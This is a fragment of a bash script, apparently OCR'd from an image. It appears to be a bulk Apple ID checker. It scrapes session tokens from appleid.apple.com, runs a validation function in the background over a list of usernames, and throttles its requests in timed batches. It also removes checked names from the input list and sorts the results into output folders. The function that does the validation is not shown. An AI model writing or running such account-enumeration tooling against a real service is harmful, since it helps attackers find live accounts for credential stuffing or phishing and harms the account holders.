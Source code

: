   fold=`expr $i % $sendList`
  if [[ $fold == 0 && $i > 0 ]]; then
    header="`date +%H:%M:%S`"
    duration=$SECONDS
    echo "[$header] Waiting $perSec second. $(($duration / 3600)) hours $(($duration / 60)) minutes and $(($duration % 60)) seconds elapsed, With $sendList req / $perSec seconds."
    sleep $perSec
  fi
  vander=`expr $i % 6`
  if [[ $vander == 0 && $i > 0 ]]; then
    resp=`curl 'https://appleid.apple.com/account' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Connection: keep-alive' -H 'Accept-Encoding: gzip, deflate, sdch, br' -H 'Accept-Language: en-US,en;q=0.8,id;q=0.6,fr;q=0.4' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.81 Safari/537.36' --compressed -D - -s`
    scnt="$(echo "$resp" | grep "scnt:" | awk -F[:,] '{print $2}' | xargs)"
    sessionId="$(echo "$resp" | grep "sessionId:" | awk -F[:,] '{print $2}' | xargs)"
  fi
 
  if [[ $scnt == '' || $sessionId == '' || $apiKey = '' ]]; then
    sleep 4
    resp=`curl 'https://appleid.apple.com/account' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Connection: keep-alive' -H 'Accept-Encoding: gzip, deflate, sdch, br' -H 'Accept-Language: en-US,en;q=0.8,id;q=0.6,fr;q=0.4' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.81 Safari/537.36' --compressed -D - -s`
    scnt="$(echo "$resp" | grep "scnt:" | awk -F[:,] '{print $2}' | xargs)"
    sessionId="$(echo "$resp" | grep "sessionId:" | awk -F[:,] '{print $2}' | xargs)"
    sleep 2
  fi
 
  panda_appleval "$username" "$indexer" "$tot" "$targetFolder" "$inputFile" &
 
  if [[ $isDel == 'y' ]]; then
    grep -v -- "$username" $inputFile > "$inputFile"_temp && mv "$inputFile"_temp $inputFile
  fi
done
 
# waiting the background process to be done
# then checking list from garbage collector
# located on $targetFolder/unknown.txt
echo "[+] Waiting background process to be done"
wait
wc -l $targetFolder/*
 
if [[ $isCompress == 'y' ]]; then
  tgl=`date`
  tgl=${tgl// /-}
  zipped="$targetFolder-$tgl.zip"
 